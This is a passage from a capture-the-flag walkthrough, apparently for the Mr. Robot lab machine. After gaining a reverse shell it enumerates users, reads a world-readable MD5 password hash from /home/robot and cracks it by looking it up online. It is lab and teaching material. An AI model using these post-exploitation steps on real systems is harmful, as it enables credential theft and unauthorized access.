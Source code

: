 Congratuations you now have an interactive reverse shell to the website. But what can we do with that?

## Privilege Escalation

We need to figure out what we can do on the server. Lets first check what user we are logged in as.

```
$ whoami  
daemon
```

Currently we are logged in as the daemon - the process which the website is running on. Good sysadmins normally try to minimise daemon processes access all unecessary parts of the system so we could try switch to a different user.

Lets see what users have home folders on the serer.

```
$ ls -Rhal /home/*
/home/robot:
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

There's one user with a home directory in `/home` called `robot`. We can also see `robot` has `key-2-of-3.txt` in their home folder.

```
$ cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied
```

Unfortunately we can't read it. Based on the file permission (`-r--------`) only robot and no one else can read that file.

We can however read password.raw-md5 which has less restrictive file permissions (`-rw-r--r--`)

```
$ cat /home/robot/password.raw-md5              
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Based on the name of the file this looks like and MD5 hash of the `robot` user's password.

Thanks to ever advancing computing power MD5 hashes on their own are trivial crack. Ther are many websites which will do this for you for free and just googling the MD5 hash should give you the results from several of these such websites.

From my top google result:

>The MD5 hash:<br>
>c3fcd3d76192e4007dfb496cca67e13b<br>
>was succesfully reversed into the string:<br>
>abcdefghijklmnopqrstuvwxyz<br>
